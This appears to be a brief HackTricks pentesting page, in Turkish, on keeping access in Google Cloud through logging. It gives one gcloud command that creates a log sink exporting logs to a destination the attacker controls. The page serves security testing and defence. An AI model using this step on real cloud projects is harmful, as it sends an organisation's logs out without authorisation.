 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Logging hakkında daha fazla bilgi için:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Logları saldırganın erişebileceği bir hedefe dışarı aktarmak için bir sink oluşturun:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
